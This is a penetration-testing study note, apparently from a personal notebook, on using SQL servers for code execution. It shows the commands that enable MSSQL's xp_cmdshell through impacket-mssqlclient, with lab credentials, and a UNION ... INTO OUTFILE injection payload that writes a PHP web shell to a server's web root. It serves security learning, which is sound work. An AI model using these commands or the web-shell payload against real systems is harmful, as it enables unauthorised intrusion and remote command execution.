

# Manual Code Execution
Depending on how the SQL server is configured on a target, we can use it to *achieve code execution*. For example, in [MSSQL](../../../CLI-tools/windows/MSSQL.md) servers the `xp_cmdshell` function takes a string and passes it to a command shell for execution. Any output returned from the shell is returned by MSSQL as rows or text. Usually, it is disabled by default. But once it's enabled, it can called in a SQL query by using the `EXECUTE` keyword.
## In MSSQL
To enable `xp_cmdshell`, we can use the `impacket-mssqlclient` tool. Once we're connected to the target MSSQL server, we can give the following command query:
```sql
> EXECUTE sp_configure 'show advanced options', 1;


INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
```
`sp_configure` is another MSSQL command ('procedure') which displays global configuration settings for the current server. You can use it to view options or modify settings. Additionally, you can give it `1` or `0` as a parameter to enable or disable specific commands:
```sql
-- Use sp_configure to enable "show advanced options"
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use sp_configure to enable "xp_cmdshell"
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use RECONFIGURE to apply the changes:
SQL> RECONFIGURE;
```
Once a change is made, run `RECONFIGURE` to apply it. Now we can execute any Windows shell command we want.
## In MySQL
Unlike MSSQL, [MySQL](../../../CLI-tools/linux/mysql.md) does not have something like `xp_cmdshell` to execute commands. Instead, we can abuse the `INTO_OUTFILE` statement to write files to the vulnerable web server. For this to work, the user running the MySQL instance *has to have write permission* to the file's location. 
### Using `UNION` & `INTO OUTFILE` to write a web shell
We can use the [UNION keyword](../../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md#UNION%20keyword) to write a [web-shell](../../../cybersecurity/TTPs/exploitation/web-shell.md) to disk. For this example to work, the web application needs to be vulnerable to a UNION attack *AND* be running [PHP](../../../coding/languages/PHP.md). If by investigating the UNION attack we've discovered that the output returned from the vulnerable SQL query includes 5 columns, then we can use `UNION SELECT` to inject PHP script using one of the joined columns.

Then we can use `USE OUTFILE` to create the file we want to write the PHP code into:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The resulting `webshell.php` file would contain this:
```php
<? system($_REQUEST ['cmd']); ?>
```
In this code, the `system` function parses the statement given to it (via the `cmd` parameter) coming from the client's [HTTP](../../../www/HTTP.md) request. This should create an *interactive* web command shell for us. 
### Executing the webshell
Now that our file is written to disk, we can try accessing it by simply navigating to it in the browser (since we wrote it to the web server's root):



> [!Resources]
> - [W3 Schools: MySQL IF() Function](https://www.w3schools.com/sql/func_mysql_if.asp)
> - [Beagle Security: Time Based SQLi](https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.